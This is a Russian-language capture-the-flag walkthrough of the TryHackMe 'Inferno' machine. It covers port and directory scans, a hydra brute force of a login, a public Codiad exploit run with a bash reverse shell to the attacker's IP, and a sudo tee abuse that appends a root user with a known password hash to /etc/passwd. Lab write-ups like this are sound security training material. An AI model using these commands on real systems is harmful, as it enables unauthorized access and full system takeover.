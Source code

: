 # Inferno

:white_check_mark:  [**Hydra**](#hydra)

:white_check_mark: [**Codiad**](#codiad)

:white_check_mark: [**Openssl**](#openssl)

:white_check_mark: [**Tee**](#tee)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV inferno.thm
```

```
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  tcpwrapped    syn-ack
22/tcp    open  ssh           syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  tcpwrapped    syn-ack
25/tcp    open  tcpwrapped    syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  tcpwrapped    syn-ack
106/tcp   open  pop3pw?       syn-ack
110/tcp   open  tcpwrapped    syn-ack
389/tcp   open  tcpwrapped    syn-ack
464/tcp   open  tcpwrapped    syn-ack
636/tcp   open  tcpwrapped    syn-ack
777/tcp   open  tcpwrapped    syn-ack
783/tcp   open  tcpwrapped    syn-ack
808/tcp   open  ccproxy-http? syn-ack
873/tcp   open  tcpwrapped    syn-ack
1001/tcp  open  webpush?      syn-ack
1236/tcp  open  tcpwrapped    syn-ack
1300/tcp  open  tcpwrapped    syn-ack
2000/tcp  open  tcpwrapped    syn-ack
2003/tcp  open  tcpwrapped    syn-ack
2121/tcp  open  tcpwrapped    syn-ack
2601/tcp  open  tcpwrapped    syn-ack
2602/tcp  open  tcpwrapped    syn-ack
2604/tcp  open  tcpwrapped    syn-ack
2605/tcp  open  tcpwrapped    syn-ack
2607/tcp  open  tcpwrapped    syn-ack
2608/tcp  open  tcpwrapped    syn-ack
4224/tcp  open  tcpwrapped    syn-ack
5051/tcp  open  tcpwrapped    syn-ack
5432/tcp  open  tcpwrapped    syn-ack
5555/tcp  open  tcpwrapped    syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6346/tcp  open  tcpwrapped    syn-ack
6566/tcp  open  tcpwrapped    syn-ack
6667/tcp  open  tcpwrapped    syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  tcpwrapped    syn-ack
8081/tcp  open  tcpwrapped    syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?   syn-ack
9418/tcp  open  tcpwrapped    syn-ack
10000/tcp open  tcpwrapped    syn-ack
10082/tcp open  tcpwrapped    syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **inferno.thm** выглядит так:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/1.png)

Сканируем директории командой:
```
gobuster dir -u http://inferno.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://inferno.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 16:00:18 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 458]
```

Перейдем в директорию **/inferno**. Появляется окно авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/2.png)

<a name="hydra"></a>

При помощи утилиты **hydra** попробует перебрать пароля для стандартных имен пользователей. Попробуем имя пользователя "admin"
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f inferno.thm http-get /inferno/ -t 64
```

```
[80][http-get] host: inferno.thm   login: admin   password: <REDACTED>
```

Вводим найденные учетные данные. Нас перекидывает на другую страницу авторизации. Попробуем те же данные(admin:dante1).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/3.png)

<a name="codiad"></a>

Получаем панель админа.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/4.png)

Попробуем найти в интернете эксплоит для **codiad**. Скачаем [эксплоит](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) и проэксплуатируем.
```
python exploit.py http://admin:dante1@inferno.thm/inferno/ admin dante1 <Твой IP> <Порт> linux
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/5.png)

Для того, чтобы получить оболочку нужно использовать еще две команды, которые нам предлагает ввести эксплоит.
```
echo 'bash -c "bash -i >/dev/tcp/<Твой ip>/<Твой порт> 0>&1 2>&1"' | nc -lvnp <Твой порт>

nc -lvnp <(Твой порт) + 1>
```

Получаем оболочку, стабилизируем ее.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/6.png)

В домашней директории пользователя находит интересный файл **/home/dante/Downloads/.download.dat**. В нем лежит зашифрованный текст. Расшифруем его с помощью [Cyberchef](https://gchq.github.io/CyberChef/). Получим текст, в котором лежит пароль от пользователя.
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

<a name="tee"></a>

Подключаемся по shh. Посмотрим права пользователя командой **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/7.png)

```
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

На [GTFOBins](https://gtfobins.github.io/gtfobins/tee/) найдем нужный эксплоит.

```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

<a name="openssl"></a>

Модифицируем его. Для начала, создадим нового пользователя и впишем его в **/etc/passwd**.
```
openssl passwd -1 -salt toor toor

$1$toor$2SrtV0M1RHrAj9uQL5C7w/
```

Модифицированный эксплоит:
```
echo "toor:\$1\$toor\$2SrtV0M1RHrAj9uQL5C7w/:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```

Заходим под нового пользователя.
```
su toor
```

Получаем флаг.
